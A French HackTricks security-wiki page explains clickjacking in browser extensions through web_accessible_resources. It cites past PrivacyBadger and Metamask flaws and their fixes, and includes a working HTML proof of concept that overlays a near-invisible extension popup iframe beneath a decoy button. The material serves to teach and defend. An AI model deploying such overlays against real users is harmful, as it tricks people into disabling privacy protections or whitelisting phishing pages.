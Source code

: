 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informations de base

Cette page va exploiter une vulnérabilité de ClickJacking dans une extension de navigateur.\
Si vous ne savez pas ce qu'est le ClickJacking, consultez :

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Les extensions contiennent le fichier **`manifest.json`** et ce fichier JSON a un champ `web_accessible_resources`. Voici ce que disent [les docs de Chrome](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) à ce sujet :

> Ces ressources seraient alors disponibles dans une page web via l'URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, qui peut être générée avec la **`extension.getURL method`**. Les ressources autorisées sont servies avec des en-têtes CORS appropriés, donc elles sont disponibles via des mécanismes comme XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

Les **`web_accessible_resources`** dans une extension de navigateur ne sont pas seulement accessibles via le web ; elles fonctionnent également avec les privilèges inhérents de l'extension. Cela signifie qu'elles ont la capacité de :

* Changer l'état de l'extension
* Charger des ressources supplémentaires
* Interagir avec le navigateur dans une certaine mesure

Cependant, cette fonctionnalité présente un risque de sécurité. Si une ressource dans **`web_accessible_resources`** a une fonctionnalité significative, un attaquant pourrait potentiellement intégrer cette ressource dans une page web externe. Les utilisateurs non méfiants visitant cette page pourraient activer involontairement cette ressource intégrée. Une telle activation pourrait entraîner des conséquences inattendues, en fonction des autorisations et des capacités des ressources de l'extension.

## Exemple PrivacyBadger

Dans l'extension PrivacyBadger, une vulnérabilité a été identifiée liée au répertoire `skin/` étant déclaré comme `web_accessible_resources` de la manière suivante (Consultez le [post de blog original](https://blog.lizzie.io/clickjacking-privacy-badger.html)) :
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Cette configuration a conduit à un problème de sécurité potentiel. Plus précisément, le fichier `skin/popup.html`, qui est rendu lors de l'interaction avec l'icône PrivacyBadger dans le navigateur, pourrait être intégré dans un `iframe`. Cette intégration pourrait être exploitée pour tromper les utilisateurs en les incitant à cliquer involontairement sur "Désactiver PrivacyBadger pour ce site Web". Une telle action compromettrait la vie privée de l'utilisateur en désactivant la protection PrivacyBadger et en soumettant potentiellement l'utilisateur à un suivi accru. Une démonstration visuelle de cette exploitation peut être vue dans un exemple vidéo de ClickJacking fourni à [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Pour remédier à cette vulnérabilité, une solution simple a été mise en œuvre : la suppression de `/skin/*` de la liste des `web_accessible_resources`. Ce changement a efficacement atténué le risque en veillant à ce que le contenu du répertoire `skin/` ne puisse pas être accessible ou manipulé via des ressources accessibles sur le web.

La solution était simple : **supprimer `/skin/*` des `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Exemple Metamask

Un [**article de blog sur un ClickJacking dans metamask peut être trouvé ici**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). Dans ce cas, Metamask a corrigé la vulnérabilité en vérifiant que le protocole utilisé pour y accéder était **`https:`** ou **`http:`** (pas **`chrome:`** par exemple) :

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Un autre ClickJacking corrigé** dans l'extension Metamask était que les utilisateurs pouvaient **Cliquer pour ajouter à la liste blanche** lorsqu'une page était suspecte d'être un phishing à cause de `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Comme cette page était vulnérable au Clickjacking, un attaquant pouvait en abuser en montrant quelque chose de normal pour amener la victime à cliquer pour l'ajouter à la liste blanche sans s'en rendre compte, puis revenir à la page de phishing qui sera ajoutée à la liste blanche.

## Exemple Steam Inventory Helper

Vérifiez la page suivante pour voir comment un **XSS** dans une extension de navigateur a été enchaîné avec une vulnérabilité **ClickJacking** :

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Références

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
